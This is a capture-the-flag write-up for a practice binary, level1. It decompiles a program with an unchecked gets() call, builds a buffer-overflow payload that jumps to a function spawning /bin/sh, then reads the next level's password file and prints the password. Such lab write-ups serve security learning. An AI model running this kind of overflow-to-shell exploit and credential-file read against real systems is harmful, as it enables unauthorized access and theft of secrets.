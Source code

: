 get the binary on host
* `scp -P 4242 level1@192.168.56.107:./level1 ./binary/level1`

decompile using ghidra
```c
	void main(void)
	{
		undefined local_50 [76];
		
		gets(local_50);
		return;
	}
	void run(void)

	{
		fwrite("Good... Wait what?\n",1,0x13,stdout);
		system("/bin/sh");
		return;
	}
```

we can use a buffer overflow to call this function
```
(gdb) disas run
	Dump of assembler code for function run:
		0x08048444 <+0>:     push   %ebp
		0x08048445 <+1>:     mov    %esp,%ebp
		0x08048447 <+3>:     sub    $0x18,%esp
		0x0804844a <+6>:     mov    0x80497c0,%eax
		0x0804844f <+11>:    mov    %eax,%edx
		0x08048451 <+13>:    mov    $0x8048570,%eax
		0x08048456 <+18>:    mov    %edx,0xc(%esp)
		0x0804845a <+22>:    movl   $0x13,0x8(%esp)
		0x08048462 <+30>:    movl   $0x1,0x4(%esp)
		0x0804846a <+38>:    mov    %eax,(%esp)
		0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
		0x08048472 <+46>:    movl   $0x8048584,(%esp)
		0x08048479 <+53>:    call   0x8048360 <system@plt>
		0x0804847e <+58>:    leave  
		0x0804847f <+59>:    ret    
	End of assembler dump.
```
`call system("/bin/sh") addr` => 0x08048444\
Using our 76 char array + thoose address we can lauch a new shell.\
This array is `76 char` + `addr run`
* `python -c 'print "a"* 76 + "\x44\x84\x04\x08"' > /tmp/exploit_1; cat /tmp/exploit_1 - | ./level1`

\
We can input our cat
* `cat /home/user/level2/.pass`

and get the pass `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
